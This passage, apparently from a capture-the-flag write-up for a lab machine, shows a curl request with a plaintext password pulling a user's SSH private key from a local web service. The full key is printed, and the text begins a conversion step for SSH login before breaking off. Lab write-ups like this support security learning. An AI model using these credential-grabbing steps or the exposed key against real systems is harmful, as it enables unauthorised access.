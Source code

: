 ```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user
Enter host password for user 'webapi_user':iamthebest

% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 2610 100 2610 0 0 2548k 0 --:--:-- --:--:-- --:--:-- 2548k
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

Validating the `id_rsa` file, noticed that it isn't a RSA key but `OpenSSH`, where we'll need to convert it before using. The procedure below allowed us to complete it easily:

- Remove the line break at the end of the file after `-----END OPENSSH PRIVATE KEY-----`.

- Convert the OpenSSH to RSA using the command below, as well as the redefinition of its permissions so we could be able to use it with `ssh`, entering a blank password to the exported key.
